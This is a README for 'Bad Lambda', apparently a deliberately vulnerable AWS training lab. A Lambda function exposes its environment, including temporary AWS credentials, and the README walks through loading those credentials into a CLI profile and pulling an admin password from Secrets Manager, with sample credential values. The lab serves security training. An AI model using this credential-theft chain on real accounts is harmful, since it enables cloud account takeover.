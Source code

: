 # Bad Lambda

Lambda function with API gateway and admin password in Secrets Manager
* Returns environment variables of container executing Lambda
* Includes AWS security token details which can be used to assume Lambda role
* The credentials can then be used to retrieve the admin password from Secrets Manager

# WARNING
* Designed for security training purposes
* Do not use on a production account
* Do not use if you are already using AWS Secrets Manager
* Could lead to AWS account takeover with excessive Lambda role policy permissions

## DEV environment

to deploy:

* use Terraform v11.7 to deploy:

```
terraform init
terraform workspace new dev
terraform plan
terraform apply
```

## USAGE

Browse to the API Gateway endpoint of the bad-lambda-dev function, provided as a Terraform output, e.g.:
https://r2pjhsdqp2.execute-api.eu-west-1.amazonaws.com/dev/

The environment variables of the Lambda function will be returned:
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5KqNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fCgbC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/OBIr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeL8X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/bad-lambda-dev
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/10/20/[$LATEST]214ec27edfb64248ac59a9865c03db62
AWS_EXECUTION_ENV=AWS_Lambda_python3.6
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_LAMBDA_FUNCTION_NAME=bad-lambda-dev
PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin
AWS_DEFAULT_REGION=eu-west-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xohK8M33/0mDQhW5wWHcNY7QShLsvbjIhhEXrUb+
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=eu-west-1
TZ=:UTC
AWS_ACCESS_KEY_ID=ASIA2L5BHF3A7UTREF4P
SHLVL=1
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
PYTHONPATH=/var/runtime
_X_AMZN_TRACE_ID=Root=1-5bcb0793-fbe56bdc6615401414db1a74;Parent=234bca345951c93f;Sampled=0
AWS_SECURITY_TOKEN=FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_HANDLER=printenv.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=128
_=/usr/bin/printenv
```

create a new profile in your ~/.aws/credentials file, using those values:
```
[badlambda]
aws_access_key_id = ASIA2L5BHF3A7UTREF4P
aws_secret_access_key = xohK8M33/0mDQhW5wWHcNY7QWFilxLSjIhhEXrUb+
aws_session_token = FQoGZXIvYXdzEJv//////////wEaDGfc5TyNddb+xhFF7iLnAaCBanmzm8/PykwEKmyW0wVGklVYWvwXIMEIkwYApmscKwMlfDEeMtq1fRlMT6fHyuyC8lw36p9dTPn8awx2frzDgNBUUDB/XMth7J8CGz+k8qcRLjwZsihMpqHv2ikozqNP+JptvnPCD//FjBF1aomgkntLbY9qeTigvTTMVDjBjoat3zZyJGKylzOnkCZ/YTWr4wuU4071f/Rud+1szy4eKocJZavdnBhfFfknhakezCrJgVeR9X+JMnnFsEi6zhkn172GOibCbO07SSty7mY6HRb0gzB1w+8wGGroEthoj2NXB/aYYHijQ56veBQ==
```
then use a recent latest version of the AWS command line interface:
```
$ aws secretsmanager list-secrets --profile badlambda
```
A list of secrets in the eu-west-1 region will be returned:
```
{
    "SecretList": [
        {
            "LastAccessedDate": 1539993600.0, 
            "SecretVersionsToStages": {
                "87AF04AE-B24B-4966-85B1-95C83B7D8717": [
                    "AWSCURRENT"
                ]
            }, 
            "Name": "admin-password-dev", 
            "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR", 
            "LastChangedDate": 1540027226.453
        }
    ]
}
```
Copy the secret ARN and paste into the command as below:
```
aws secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR" --profile badlambda
```
You will retrieve the secret value of the admin password:
```
{
    "Name": "admin-password-dev", 
    "VersionId": "87AF04AE-B24B-4966-85B1-95C83B7D8717", 
    "SecretString": "cDS41esC&Y7Dudwt4Uvrwo-�w", 
    "VersionStages": [
        "AWSCURRENT"
    ], 
    "CreatedDate": 1540027226.179, 
    "ARN": "arn:aws:secretsmanager:eu-west-1:YOUR_AWS_ACCOUNT_ID:secret:admin-password-dev-mJstfR"
}
```
